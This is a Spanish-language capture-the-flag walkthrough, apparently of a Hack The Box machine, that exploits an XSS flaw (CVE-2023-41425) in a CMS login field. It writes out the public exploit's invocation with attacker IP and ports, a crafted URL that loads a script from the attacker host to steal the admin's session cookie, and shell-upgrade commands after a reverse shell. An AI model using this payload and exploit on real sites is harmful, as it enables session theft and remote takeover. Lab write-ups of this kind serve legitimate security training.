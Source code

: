 Existen varios exploits públicos que permiten explotar esta vulnerabilidad:

https://github.com/duck-sec/CVE-2023-41425

Esta exploit abusa de la vulnerabilidad XSS del campo **loginURL** del CMS:

![image](https://github.com/user-attachments/assets/1290146e-7146-454e-9625-1aa767dade75)


```bash
git clone https://github.com/duck-sec/CVE-2023-41425.git
```

```bash 
python3 exploit.py -u http://sea.htb/loginURL  -lh 10.10.14.6 -lp  7777  -sh 10.10.14.6 -sp 8888
```

![image](https://github.com/user-attachments/assets/a0677958-c905-4023-ab4e-255cc2b03a30)



El script nos genera la petición que deberemos proporcionar al administrador del sitio para robar su cookie de sesión y realizar la inyección:

```
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.6:8888/xss.js"></script><form+action="
```

Para ello nos vamos a servir del campo Website del formulario, el cual generará un hipervínculo y confiaremos en que el administrador que lo reciba haga click en él.

![image](https://github.com/user-attachments/assets/187a5637-8a3d-4dd0-ae87-40431905d551)


En pocos segundos veremos como se realiza la petición al recurso malicioso:

![image](https://github.com/user-attachments/assets/8749031c-7928-4051-a12d-34792b912337)


Y recibimos la reverse shell en nuestro host de ataque:

![image](https://github.com/user-attachments/assets/4ad69e28-8e4c-43ee-95c1-7b63d96792f2)


### Mejorando la shell

```bash
script /dev/null -c bash
Crtl +z 
(suspended)
stty raw -echo;fg
reset xterm
export TERM=xterm
```

En nuestro host de ataque
```bash
stty size
```
